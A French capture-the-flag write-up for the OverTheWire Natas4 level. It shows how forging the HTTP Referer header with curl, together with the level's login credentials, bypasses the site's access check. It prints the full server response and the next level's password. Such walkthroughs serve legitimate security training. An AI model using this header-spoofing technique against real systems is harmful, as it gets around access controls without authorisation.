 ## Over-The-Wire -writeup-
### Natas4 (http://natas4.natas.labs.overthewire.org/)

---
#### Etape 1

"Accès refusé, vous visitez le site depuis '...', et les utilisateurs authorisés doivent venir depuis 'http://natas5.natas.labs.overthewire.org/'"  
On va donc **changer notre referer**, une en-tête de requette HTTP qui informe les sites de la provenance des utilisateurs (d'où ils viennent, de quel lien), par le lien demandé.

Je vais utiliser une commande **cUrl** qui va se connecter à la page en changeant le *referer* pour moi:

Structure de la commande pour se connecter à la page: **curl -u username:password http://target-address/**  
*Ici cUrl renvoie la même erreur que sur le navigateur, puisque le referer n'a pas été changé. On s'est juste identifié.*

Structure de la command pour changer de referer: **curl --referer http:/referer-adress/ http://target-address**  
*Ici cUrl envoie une requête en informant http://target-address/ que l'on provient de http://referer-address/*

**Fusionnons les deux**:
> curl -u username:password http://target-address/ --referer http://referer-address/ http://target-address/

**Enfin, dans notre cas, la commande exacte est**:  
> curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/

---
cUrl renvoie :
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

---
Mot de passe: **iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq**
